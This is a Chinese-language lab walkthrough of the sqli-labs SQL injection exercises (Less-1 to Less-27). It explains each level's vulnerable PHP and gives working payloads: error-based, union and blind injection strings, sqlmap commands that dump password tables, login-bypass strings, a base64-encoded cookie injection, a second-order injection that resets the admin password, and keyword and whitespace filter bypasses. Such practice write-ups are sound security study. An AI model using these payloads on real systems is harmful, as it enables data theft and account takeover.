



Basic Challenge
Less-1
sqlmap:
使用联合查询为例，其他查询只需要修改–technique=U即可
发现注入点
sqlmap -u 'http://caeae33c-b104-4be8-861b-9d117ff137e2.node4.buuoj.cn/Less-1/?id=1' --skip-static --technique=U --random-agent --batch -v3发现数据库
sqlmap -u 'http://caeae33c-b104-4be8-861b-9d117ff137e2.node4.buuoj.cn/Less-1/?id=1' --skip-static --technique=U --random-agent --batch -v3 -dbs结果
[*] ctftraining
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] test查询数据库security中表
sqlmap -u 'http://caeae33c-b104-4be8-861b-9d117ff137e2.node4.buuoj.cn/Less-1/?id=1' --skip-static --technique=U --random-agent --batch -v 3 --tables -D security结果
+----------+
| emails |
| referers |
| uagents |
| users |
+----------+查询user表中的列
语句
sqlmap -u 'http://caeae33c-b104-4be8-861b-9d117ff137e2.node4.buuoj.cn/Less-1/?id=1' --skip-static --technique=U --random-agent --batch -v 3 --columns -D security -T users获得列内数据
sqlmap -u 'http://caeae33c-b104-4be8-861b-9d117ff137e2.node4.buuoj.cn/Less-1/?id=1' --skip-static --technique=U --random-agent --batch -v 3 --columns -D security -T users -C password -dump报错注入
发现用户
id=1' AND (SELECT 1710 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT (ELT(1710=1710,1))),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- TBlX发现数据库
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT MID((IFNULL(CAST((table_schema) AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.TABLES LIMIT 0,1),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe查security中表，如果查看其他库记得修改table_schema in()
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT MID((IFNULL(CAST((table_name) AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x7365637572697479)LIMIT 0,1),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe查看列
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x7E,(SELECT MID((IFNULL(CAST((column_name) AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="users" AND table_schema="security" LIMIT 0,1),0x7E,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe查看列中内容
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x7e,(SELECT MID((IFNULL(CAST((password) AS NCHAR),0x20)),1,54) FROM security.users LIMIT 0,1),0x7e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe联合注入
获得用户名:
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x7E,(MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,54)),0x7E,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe发现数据库
-6497' UNION ALL SELECT NULL,NULL,(SELECT CONCAT(0x7E,IFNULL(CAST(schema_name AS NCHAR),0x20),0x7E) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1)-- -
获得其他数据库修改LIMIT a,1 中的a即可查询数据库security中表
-8335' UNION ALL SELECT NULL,NULL,(SELECT CONCAT(0x7E,IFNULL(CAST(table_name AS NCHAR),0x20),0x7E) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x7365637572697479) LIMIT 0,1)-- -
获得其他表修改LIMIT a,1 中的a即可查询user表中的列
id=--5520' UNION ALL SELECT NULL,NULL,(SELECT CONCAT(0x7E,IFNULL(CAST(column_name AS NCHAR),0x20),0x7E,IFNULL(CAST(column_type AS NCHAR),0x20),0x7E) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="users" AND table_schema="security" LIMIT 1,1)-- -获得数据
一次获得全部数据:
-4235' UNION ALL SELECT NULL,NULL,(SELECT GROUP_CONCAT(IFNULL(CAST(password AS NCHAR),0x20),0x7E,IFNULL(CAST(password AS NCHAR),0x20),0x3c62723e) FROM security.users ORDER BY id)-- -
一次获得一条:
-4235' UNION ALL SELECT NULL,NULL,(SELECT CONCAT(0x7E,IFNULL(CAST(password AS NCHAR),0x20),0x7E) FROM security.users ORDER BY id LIMIT 5,1)-- -
?id=-1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(username,password SEPARATOR 0x3c62723e) FROM users)-- 布尔盲注
?id=1' and left(database(),1)>'r'--+
?id=1' and left(database(),1)>'s'--+时间盲注
数据库第一个字母的 ascii 码为 115，即s
?id=1' and if(ascii(substr(database(),1,1))>114,1,sleep(5))--+
?id=1' and if(ascii(substr(database(),1,1))>115,1,sleep(5))--+Less-2
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 报错&联合&盲注 | id=$id |
仅仅与Less-1的闭合方式不同
Less-3
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 报错&联合&盲注 | id=(‘$id’) |
仅仅与Less-1的闭合方式不同
Less-4
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 报错&联合&盲注 | id=(“$id”) |
仅仅与Less-1的闭合方式不同
Less-5
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 报错&盲注 | id=’$id’ |
无回显，但是会显示错误，所以可以使用报错与盲注
Less-6
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 报错&盲注 | id=(“$id”) |
仅仅与Less-5的闭合方式不同
Less-7
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 盲注 | id=((‘$id’)) |
# 使用单引号加双层括号拼接
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
# 支持布尔盲注、延时盲注
if true:
输出 You are in.... Use outfile......
else:
输出 You have an error in your SQL syntax
//print_r(mysql_error());因为将print_r(mysql_erro())注释掉了，所以无法使用报错注入。
看别人的payload可以使用outfile，之前从来没有听过，真的长见识了。之后再仔细研究一下。
https://www.sqlsec.com/2020/05/sqlilabs.html#toc-heading-17
Less-8
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 盲注 | id=’$id’ |
与Less-7一样
Less-9
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 时间盲注 | id=’$id’ |
# 使用单引号拼接
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
# 支持延时盲注
if true:
输出 You are in............
else:
输出 You are in...........因为无论正确与错误输出结果都一样所以只能使用时间盲注。
Less-10
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 时间盲注 | id=”$id” |
除了拼接方式其他都与Less-9相同。
Less-11
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 报错注入&联合注入&时间盲注& 布尔盲注 | id=”$id” |
除了类型变为了POST，注入位置有所变化，注入语句则完全相同
手工注入
可以使用hackbar进行注入。
因为我电脑的hackbar无法发送Post报文的数据部分，所以这里用postman
Sqlmap
sqlmap -u http://11338196-84e7-4162-b1cf-e2819d255a9d.node4.buuoj.cn/Less-11/ -p passwd --skip-static --technique=E --random-agent --method=post --data='uname=1&passwd=1&submit=Submit' --batch --dbs万能密码
这里还可以使用万能密码进行登录
"SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
# 注释掉 passwd 来登录
uname=admin'--+&passwd=&submit=Submit
uname=admin'#&passwd=&submit=Submit
# 注释后面语句 并 添加一个永真条件
uname=admin&passwd=1' or 1--+&submit=Submit
uname=admin&passwd=1'||1--+&submit=Submit
uname=admin&passwd=1' or 1#&submit=Submit
uname=admin&passwd=1'||1#&submit=Submit
# 闭合后面语句 并 添加一个永真条件
uname=admin&passwd=1'or'1'='1&submit=Submit
uname=admin&passwd=1'||'1'='1&submit=Submit
Less-12
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 报错注入&联合注入&时间盲注& 布尔盲注 | id=($id) |
仅仅闭合方式不同
Less-13
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 报错注入&时间盲注& 布尔盲注 | id=(‘$id’) |
因为没有输出结果，但是有错误结果，所以不能联合查询。
Less-14
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 报错注入&时间盲注& 布尔盲注 | id=”$id” |
仅仅是闭合方式方式不同
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"';
@$sql="SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1";Less-15
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注 | id=”$id” |
不再报错，所以只能使用盲注
Less-16
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注 | id=（$id） |
闭合方式不同
Less-17
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注 | passwd=’$passwd’ |
对usname使用了过滤
function check_input($value)
{
if(!empty($value))
{
// truncation (see comments)
$value = substr($value,0,15);
}
// Stripslashes if magic quotes enabled
if (get_magic_quotes_gpc()) // 当 magic_quotes_gpc 打开时，所有的 ‘ (单引号), ” (双引号), (反斜线)
{ // and 空字符会自动转为含有反斜线的溢出字符。
$value = stripslashes($value); // 去除反斜杠
}
// Quote if not a number
if (!ctype_digit($value)) // 判断是否是以数字
{
$value = "'" . mysql_real_escape_string($value) . "'"; // 如果不是数字则将字符串转意，用来防止sql注入
}
else
{
$value = intval($value);
}
return $value;
}
$uname=check_input($_POST['uname']);
$passwd=$_POST['passwd'];
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";
if select 结果正确:
# 更新语句 使用单引号拼接 passwd
$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
if mysql 报错:
print_r(mysql_error());
上面的SQL语句因为username被过滤，所以无法注入。但是下面的update语句中的passwd没有被过滤啊。
由于可以报错，所以我们可以使用在passwd报错注入，注意username一定要正确。否则连passwdsql语句都执行不到。
less-18
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 报错注入&时间盲注& 布尔盲注 | user-agent = ‘user-agent’ |
$sql="SELECT users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
$result1 = mysql_query($sql);
$row1 = mysql_fetch_array($result1);
if($row1)
{
echo '<font color= "#FFFF00" font size = 3 >';
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";与之前的注入有所不同的是，这里的注入是通过http头部进行注入，通过user-agent，REMOTE_ADDR进行注入，但是 REMOTE_ADDR不可伪造。
因为后面的语句不能随便注释，所以我们需要引号注释。
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT MID((IFNULL(CAST((table_schema) AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.TABLES LIMIT 0,1),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) and '1' = '1Less-19
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 报错注入&时间盲注& 布尔盲注 | user-agent = ‘referer’ |
与上题区别在于referer
Less-20
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 报错注入&时间盲注& 布尔盲注 | username=’$cookee’ |
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";这里我们可以通过修改cookie便可以进行注入
需要注意body中不能有submit
uname= 1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT MID((IFNULL(CAST((table_schema) AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.TABLES LIMIT 0,1),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIeadmin' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT MID((IFNULL(CAST((table_schema) AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.TABLES LIMIT 0,1),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) -- sqlmap
那么sqlmap的语句怎么写呢
sqlmap -u "http://127.0.0.1:8888/Less-20/" --cookie="uname=admin*" --batch --dbms=MySQL --random-agent --technique=U -v 3 --level=2Advanced Injection
从这里开始变会出现各种方式的过滤，于是开始通读源码，掌握过滤与绕过的方式。
Less-21
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 联合&报错注入&时间盲注& 布尔盲注 | username=(‘$cookee’) |
// 如果Cookie[uname]没有值
if(!issert(cookie[]))
{
if(isset($_POST['uname']) && isset($_POST['passwd'])) // 都有值
{
$uname = check_input($_POST['uname']);` // 过滤.
$passwd = check_input($_POST['passwd']);
$sql="SELECT users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
$result1 = mysql_query($sql);
$row1 = mysql_fetch_array($result1);
if($row1) // 查询出结果
{
setcookie('uname', base64_encode($row1['username']), time()+3600); // 重新设置cookie[uname]
print_r(mysql_error()); // 报错, 所以有使用报错注入的可能性
}
else
｛
print_r(mysql_error());
｝
}
}
else // cookie[uname]不为空
{
if(!isset($_POST['submit'])) // POST上传的submit为空
{
$cookee = $_COOKIE['uname'];
$cookee = base64_decode($cookee); // base64解密
$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1"; // sql查询语句
$result=mysql_query($sql);
if (!$result) // 没有结果说明语句有问题
{
die('Issue with your mysql: ' . mysql_error());
}
$row = mysql_fetch_array($result);
if($row)
{
// 输出uname与password因此可以用联合查询
}
}
else
{
// 设置cookie[uname]
}
}
从源码中可以知道，这个题与上一个题的区别就在于这个题的cookie值需要经过base64加密。
POST /Less-21/ HTTP/1.1
Host: a481de85-cadc-4d56-b494-b1d63ffcc52e.node4.buuoj.cn
Content-Length: 17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://a481de85-cadc-4d56-b494-b1d63ffcc52e.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://a481de85-cadc-4d56-b494-b1d63ffcc52e.node4.buuoj.cn/Less-21/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: uname=MScpIEFORCAoU0VMRUNUIDEzNDMgRlJPTShTRUxFQ1QgQ09VTlQoKiksQ09OQ0FUKDB4NzE2YTZhNzE3MSwoU0VMRUNUIE1JRCgoSUZOVUxMKENBU1QoKHRhYmxlX3NjaGVtYSkgQVMgTkNIQVIpLDB4MjApKSwxLDU0KSBGUk9NIElORk9STUFUSU9OX1NDSEVNQS5UQUJMRVMgTElNSVQgMCwxKSwweDcxNmI2MjZhNzEsRkxPT1IoUkFORCgwKSoyKSl4IEZST00gSU5GT1JNQVRJT05fU0NIRU1BLlBMVUdJTlMgR1JPVVAgQlkgeClhKS0tIHV3SWVhZG1pbicgQU5EIChTRUxFQ1QgMTM0MyBGUk9NKFNFTEVDVCBDT1VOVCgqKSxDT05DQVQoMHg3MTZhNmE3MTcxLChTRUxFQ1QgTUlEKChJRk5VTEwoQ0FTVCgodGFibGVfc2NoZW1hKSBBUyBOQ0hBUiksMHgyMCkpLDEsNTQpIEZST00gSU5GT1JNQVRJT05fU0NIRU1BLlRBQkxFUyBMSU1JVCAwLDEpLDB4NzE2YjYyNmE3MSxGTE9PUihSQU5EKDApKjIpKXggRlJPTSBJTkZPUk1BVElPTl9TQ0hFTUEuUExVR0lOUyBHUk9VUCBCWSB4KWEpIC0tIA==
Connection: close
uname=1&passwd=1=uname=MScpIEFORCAoU0VMRUNUIDEzNDMgRlJPTShTRUxFQ1QgQ09VTlQoKiksQ09OQ0FUKDB4NzE2YTZhNzE3MSwoU0VMRUNUIE1JRCgoSUZOVUxMKENBU1QoKHRhYmxlX3NjaGVtYSkgQVMgTkNIQVIpLDB4MjApKSwxLDU0KSBGUk9NIElORk9STUFUSU9OX1NDSEVNQS5UQUJMRVMgTElNSVQgMCwxKSwweDcxNmI2MjZhNzEsRkxPT1IoUkFORCgwKSoyKSl4IEZST00gSU5GT1JNQVRJT05fU0NIRU1BLlBMVUdJTlMgR1JPVVAgQlkgeClhKS0tIHV3SWVhZG1pbicgQU5EIChTRUxFQ1QgMTM0MyBGUk9NKFNFTEVDVCBDT1VOVCgqKSxDT05DQVQoMHg3MTZhNmE3MTcxLChTRUxFQ1QgTUlEKChJRk5VTEwoQ0FTVCgodGFibGVfc2NoZW1hKSBBUyBOQ0hBUiksMHgyMCkpLDEsNTQpIEZST00gSU5GT1JNQVRJT05fU0NIRU1BLlRBQkxFUyBMSU1JVCAwLDEpLDB4NzE2YjYyNmE3MSxGTE9PUihSQU5EKDApKjIpKXggRlJPTSBJTkZPUk1BVElPTl9TQ0hFTUEuUExVR0lOUyBHUk9VUCBCWSB4KWEpIC0tIA==sqlmap
sqlmap -u http://a481de85-cadc-4d56-b494-b1d63ffcc52e.node4.buuoj.cn/Less-21/ --technique=U --random-agent --cookie="uname=*" --tamper="base64encode" --dbms=MySQL --flush-session --technique=U -v 3 --dbs
Less-22
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 联合&报错注入&时间盲注& 布尔盲注 | username=”cookie” |
$cookee = base64_decode($cookee);
$cookee1 = '"'. $cookee. '"';
echo "<br></font>";
$sql="SELECT * FROM users WHERE username=$cookee1 LIMIT 0,1";
基本结构与上一题相同只不是cookie的闭合方式变为了 “cookie”
Less-23
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合&报错注入&时间盲注& 布尔盲注 | id=’id’ |
if(isset($_GET['id']))
{
$id=$_GET['id'];
//filter the comments out so as to comments should not work
$reg = "/#/"; // 对注释符的过滤
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);
// connectivity
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
}由于对注释符进行了过滤，所以我们考虑使用简单闭合即可。
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x7E,(MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,54)),0x7E,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) and '1' = 1
Less-24
这个题目有些特殊，涉及到了二次注入。再说明二次注入前，我们先看一下源码
最开始我们看一下每个文件的功能
failed.php $_COOKIE["Auth"]不存在时，报错并退回主页面。
forget.php 一个普通html页面
index.php 首页，没有后端。
login.php 一个普通的页面
login_create.php 创建新的用户，我们需要讲一下的文件
login.php 登录时使用的后端代码
new_user 创建新用户时页面
pass_change.php 改变密码时的后端代码
login_create.php
下面时login_create.php的代码分析
if (isset($_POST['submit'])
{
$username= mysql_escape_string($_POST['username']) ; // 将字符转义
$pass= mysql_escape_string($_POST['password']);
$re_pass= mysql_escape_string($_POST['re_password']);
$sql = "select count(*) from users where username='$username'"; // 因为被username转义了所以在sql语句中会被当成一个普通字符串执行
$res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( '); // true or false
$row = mysql_fetch_row($res); // mysql_fetch_row() 函数从结果集中取得一行作为数字数组。
if (!$row[0]== 0) // 用户已将存在
{
// 弹窗报错
}
else
{
if(两次密码相同){
$sql = "insert into users ( username, password) values(\"$username\", \"$pass\")"; // 这里的\"是为了使""中的"不作为字符串运行
// ,从而使username作为变量执行
}
}
}login.php
function sqllogin(){
// 过滤
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
$res = mysql_query($sql) or die('You tried to be real smart, Try harder!!!! :( ');
$row = mysql_fetch_row($res);
if ($row[1]) {
return $row[1];
} else {
return 0;
}
}
就是查询语句没什么好说的
pass_change.php
if(上传)
{
$username= $_SESSION["username"];
// 都经过过滤
$curr_pass= mysql_real_escape_string($_POST['current_password']);
// mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。
//下列字符受影响：\x00,\n,\r,\, ', ", \x1a
$pass= mysql_real_escape_string($_POST['password']);
$re_pass= mysql_real_escape_string($_POST['re_password']);
if(两次密码相同)
{
// 更新语句,
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
$res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
// 取得update影响的行数
$row = mysql_affected_rows();
}
}
思路分析
从代码上来看貌似都被转义了，乍一看是成功注入的。实际上的确不能使用常规的思路来进行注入，因为这题是二次注入，ISCC 2019 当时使用这题的考查点是修改掉 admin 用户的密码，然后再登录即可。假设不知道 admin 用户的具体情况下，想要修改掉 admin 用户的密码的话，这里就需要使用的是二次注入的姿势了。
二次注入 简单概括就是黑客精心构造 SQL 语句插入到数据库中，数据库报错的信息被其他类型的 SQL 语句调用的时候触发攻击行为。因为第一次黑客插入到数据库的时候并没有触发危害性，而是再其他语句调用的时候才会触发攻击行为，这个就是二次注入
- 通过构造数据的形式，在浏览器或者其他软件中提交 HTTP 数据报文请求到服务端进行处理，提交的数据报文请求中可能包含了构造的 SQL 语句或者命令。
- 服务端应用程序会将提交的数据信息进行存储，通常是保存在数据库中，保存的数据信息的主要作用是为应用程序执行其他功能提供原始输入数据并对客户端请求做出响应。
- 向服务端发送第二个与第一次不相同的请求数据信息。
- 服务端接收到提交的第二个请求信息后，为了处理该请求，服务端会查询数据库中已经存储的数据信息并处理，从而导致在第一次请求中构造的 SQL语句或者命令在服务端环境中执行。
- 服务端返回执行的处理结果数据信息，便可以通过返回的结果数据信息判断二次注入漏洞利用是否成功。
在创立用户的语句中
$username= mysql_escape_string($_POST['username']) ;
mysql_escape_string将我们的语句转义，譬如下面，我们可以很明显的看到’被转移为了'这就使我们的语句不能执行。但是如果插入表中呢？这便是我们的注入点
| 危险字符 | 转义后 |
|---|---|
| \ | \ |
| ‘ | ' |
| “ | " |
转义前:
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x7E,(MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,54)),0x7E,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe
转义后
1\' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x7E,(MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,54)),0x7E,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe
然后再看一下修改密码的sql语句
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
username通过单引号闭合这就是我们的注入点，我们完全可以控制修改用户的对象。
当用户为admin’# 时，我们的语句变为以下部分，成功注入
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin’# ' and password='$curr_pass' ";
注入步骤
好，知道了思路，我们现在开始注入吧。
首先，我们注册一个用户名为admin’#violet的用户，你也许会想不是有过滤语句将‘转义吗？好，那我们看一下在数据库中的情况。

我去，咋和别人不一样。我吐了啊。罢了罢了，理解意思就行了。如果知道原因的话，希望告诉我。
之后，因为我们的用户名含有注释，所以可以直接将admin的密码修改。
Less-25
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合&报错注入&时间盲注& 布尔盲注 | id=’$id’ |
这一关，and以及or被过滤了。来，我们尝试绕过一下。
function blacklist($id)
{
$id= preg_replace('/or/i',"", $id); //strip out OR (non case sensitive)
$id= preg_replace('/AND/i',"", $id); //Strip out AND (non case sensitive)
return $id;
}
正则表达式
本来一扫还想着大小写绕过，然后一看原来使用了正则表达式。那就没事了。
(?i)即匹配时不区分大小写。表示匹配时不区分大小写。
(?s)即Singleline(单行模式)。表示更改.的含义，使它与每一个字符匹配（包括换行 符\n）。
(?m)即Multiline(多行模式) 。 表示更改^和$的 含义，使它们分别在任意一行的行首和行尾匹配，而不仅仅在整个字符串的开头和结尾匹配。(在此模式下,$的 精确含意是:匹配\n之前的位置以及字符串结束前的位置.)
(?x)：表示如果加上该修饰符，表达式中的空白字符将会被忽略，除非它已经被转义。
(?e)：表示本修饰符仅仅对于replacement有用，代表在replacement中作为PHP代码。
(?A)：表示如果使用这个修饰符，那么表达式必须是匹配的字符串中的开头部分。比如说"/a/A"匹配"abcd"。
(?E)：与"m"相反，表示如果使用这个修饰符，那么"$"将匹配绝对字符串的结尾，而不是换行符前面，默认就打开了这个模式。
(?U)：表示和问号的作用差不多，用于设置"贪婪模式"。
双写绕过
在这里我们使用or或and，或者字符串中含有它们时可以双写。
造成这个漏洞的原因在于没有使用循环。仅仅过滤了一次
过滤前：
oorr， anandd， oandr
过滤后：
or， and，or
符号替换
我们如果使用的是符合，完全可以用& 或者|替换
Less-25a
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&时间盲注& 布尔盲注 | id=$id |
拼接以及没有报错其他相同
Less-26
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 报错注入&联合注入&时间盲注& 布尔盲注 | id=$id |
function blacklist($id)
{
$id= preg_replace('/or/i',"", $id); //strip out OR (non case sensitive)
$id= preg_replace('/and/i',"", $id); //Strip out AND (non case sensitive)
$id= preg_replace('/[\/\*]/',"", $id); //strip out /*
$id= preg_replace('/[--]/',"", $id); //Strip out --
$id= preg_replace('/[#]/',"", $id); //Strip out #
$id= preg_replace('/[\s]/',"", $id); //Strip out spaces
$id= preg_replace('/[\/\\\\]/',"", $id); //Strip out slashes
return $id;
}
or与and可以用||或者&&代替，双写绕过。
过滤注释，可以通过闭合来进行代替。
空格可以通过下表进行代替
| 符号 | 说明 |
|---|---|
| %09 | TAB 键(水平) |
| %0a | 新建一行 |
| %0c | 新的一页 |
| %0d | return 功能 |
| %0b | TAB 键(垂直) |
| %a0 | 空格 |
?id=-1'%0bUNION%0bSELECT%0b1,(SELECT%0bGROUP_CONCAT(username,passwoorrd%0bSEPARAToorr%0b0x3c62723e)%0bFROM%0busers),1%0banandd%0b'1'%0b=%0b'1Less-26a
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 报错注入&联合注入&时间盲注& 布尔盲注 | id=(‘$id’) |
仅仅时闭合方式不同。
Less-27
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 报错注入&联合注入&时间盲注& 布尔盲注 | id=’$id’ |
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id); //strip out /*
$id= preg_replace('/[--]/',"", $id); //Strip out --.
